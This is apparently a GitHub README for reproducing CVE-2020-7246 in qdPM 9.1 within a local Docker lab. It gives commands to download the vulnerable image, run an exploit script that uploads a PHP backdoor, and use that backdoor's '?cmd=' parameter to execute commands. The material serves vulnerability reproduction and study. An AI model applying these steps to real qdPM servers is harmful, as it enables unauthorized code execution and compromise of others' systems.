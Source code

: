 # CVE-2020-7246

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2020-7246>


## PoC / Exploit
 * <https://docs.google.com/document/d/13ZZSm0DL1Ie6r_fU5ZdDKGZ4defFqiFXMG--zDo8S10/edit>
 * <https://www.exploit-db.com/exploits/47954>

## Environment used
* Ubuntu 18.04 LTS
* qdPM 9.1

## Requirements
* docker
## Reproduction 
Commands to build the environment
```shell script
wget --load-cookies /tmp/cookies.txt "https://docs.google.com/uc?export=download&confirm=$(wget --quiet --save-cookies /tmp/cookies.txt --keep-session-cookies --no-check-certificate 'https://docs.google.com/uc?export=download&id=1vVdqaDV3qBrz2zKLG01kHfmvOCa0X4rM' -O- | sed -rn 's/.*confirm=([0-9A-Za-z_]+).*/\1\n/p')&id=1vVdqaDV3qBrz2zKLG01kHfmvOCa0X4rM" -O CVE-2020-7246.dockerimage.tar.gz && rm -rf /tmp/cookies.txt 
docker load -i CVE-2020-7246.dockerimage.tar.gz
docker run -it -p 8080:80 cve20207246
```
Command to inject malicious php file
```shell script
python3 qdPM-exploit.py -url http://localhost:8080/ -u teste@localhost.com -p teste
```
* Next open the browser on the following link: <http://localhost:8080//uploads/users/>
* Select one of the php files of the format *-backdoor.php, getting a url in the format of <http://localhost:8080//uploads/users/*-backdoor.php>
* Add the ``` ?cmd=whoami ``` at the end of the url and ``` www-data ``` should appear as the response